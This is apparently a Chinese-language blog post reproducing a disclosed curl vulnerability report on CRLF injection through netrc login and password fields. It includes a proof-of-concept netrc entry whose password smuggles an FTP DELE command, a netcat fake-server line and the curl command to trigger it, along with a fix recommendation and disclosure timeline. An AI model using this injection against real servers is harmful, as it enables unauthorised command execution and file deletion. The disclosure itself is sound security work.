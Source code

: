 ```yaml
---
date: 2025-08-03T04:08:44+08:00
title: "curl netrc文件CRLF注入漏洞分析"
tags: [网络安全,漏洞挖掘,curl]
authors: qife
image: 
description: "本文详细分析了curl在处理netrc文件时存在的CRLF注入漏洞，攻击者可通过构造特殊用户名/密码实现FTP命令注入，包含完整的复现步骤和修复建议。"
---
```


# curl netrc crlf注入漏洞报告

## 摘要
curl允许在netrc文件的登录和密码字段中编码CR和LF字符。当攻击者能够影响netrc文件内容时，可通过在登录名或密码中注入CRLF来实现FTP命令注入。POP3协议同样可能受影响但未经测试。

## 漏洞复现步骤

1. 创建包含恶意payload的netrc文件：
```plaintext
machine localhost
  login alice
  password "alicespassword\r\nDELE pocfile.txt"
```

2. 启动测试用的FTP服务器：
```bash
echo -ne "220 \r\n331 \r\n" | nc -v -l -p 9999
```

3. 使用受影响curl版本发起请求：
```bash
curl -v --netrc-file netrc ftp://localhost:9999
```

## 修复建议
对于使用CR/LF作为分隔符的协议（如FTP、POP3等），在构造命令时不应允许用户名或密码中包含CR或LF字符。

## 影响评估
可实现FTP/POP3命令注入。项目方最终认定该问题属于"本地攻击者已存在"类别，不构成安全漏洞。

## 时间线
- 2024年11月9日：漏洞报告提交
- 2024年11月10日：curl团队确认问题性质
- 2024年11月10日：报告关闭（标记为Not Applicable）
- 2025年7月7日：报告公开披露